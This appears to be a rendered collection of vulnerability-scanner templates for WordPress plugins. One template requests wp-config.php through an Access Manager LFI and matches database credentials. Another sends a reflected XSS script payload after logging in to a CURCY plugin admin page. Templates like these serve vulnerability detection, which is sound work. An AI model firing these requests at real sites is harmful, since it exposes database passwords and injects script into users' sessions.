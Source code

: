 - severity - high
- tags - wordpress,wp-plugin,lfi,wp,accessmanager,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/?aam-media=wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress CURCY - Multi Currency for WooCommerce \<2.1.18 - Cross-Site Scripting
## Description
- WordPress CURCY - Multi Currency for WooCommerce 2.1.18 does not escape some generated URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,curcy,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wc-reports&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers
